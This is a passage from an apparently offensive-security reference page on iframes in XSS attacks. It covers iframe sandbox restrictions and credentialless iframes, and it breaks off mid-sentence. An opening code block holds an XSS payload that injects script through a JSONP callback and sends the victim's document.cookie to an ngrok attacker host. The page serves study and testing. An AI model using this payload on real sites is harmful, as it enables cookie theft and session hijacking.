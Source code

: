 ```html
<!-- This one requires the data: scheme to be allowed -->

<!-- This one injects JS in a jsonp endppoint -->
<iframe srcdoc='
<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
<!-- sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)-->
[data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>](data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>)

```

### Iframe sandbox

The content within an iframe can be subjected to additional restrictions through the use of the `sandbox` attribute. By default, this attribute is not applied, meaning no restrictions are in place.

When utilized, the `sandbox` attribute imposes several limitations:

- The content is treated as if it originates from a unique source.
- Any attempt to submit forms is blocked.
- Execution of scripts is prohibited.
- Access to certain APIs is disabled.
- It prevents links from interacting with other browsing contexts.
- Use of plugins via `<embed>`, `<object>`, `<applet>`, or similar tags is disallowed.
- Navigation of the content's top-level browsing context by the content itself is prevented.
- Features that are triggered automatically, like video playback or auto-focusing of form controls, are blocked.

Tip: Modern browsers support granular flags such as `allow-scripts`, `allow-same-origin`, `allow-top-navigation-by-user-activation`, `allow-downloads-without-user-activation`, etc. Combine them to grant only the minimum capabilities required by the embedded application.

The attribute's value can be left empty (`sandbox=""`) to apply all the aforementioned restrictions. Alternatively, it can be set to a space-separated list of specific values that exempt the iframe from certain restrictions.

```html
<!-- Isolated but can run JS (cannot reach parent because same-origin is NOT allowed) -->
[demo_iframe_sandbox.htm](demo_iframe_sandbox.htm)

```

### Credentialless iframes

As explained in [this article](https://blog.slonser.info/posts/make-self-xss-great-again/), the `credentialless` flag in an iframe is used to load a page inside an iframe without sending credentials in the request while maintaining the same origin policy (SOP) of the loaded page in the iframe.

Since **Chrome 110 (February 2023) the feature is enabled by default** and the spec is being standardized across browsers under the name *anonymous iframe*. MDN describes it as: “a mechanism to load third-party iframes in a brand-new, ephemeral storage partition so that no cookies, localStorage or IndexedDB are shared with the real origin”. Consequences for attackers and defenders:

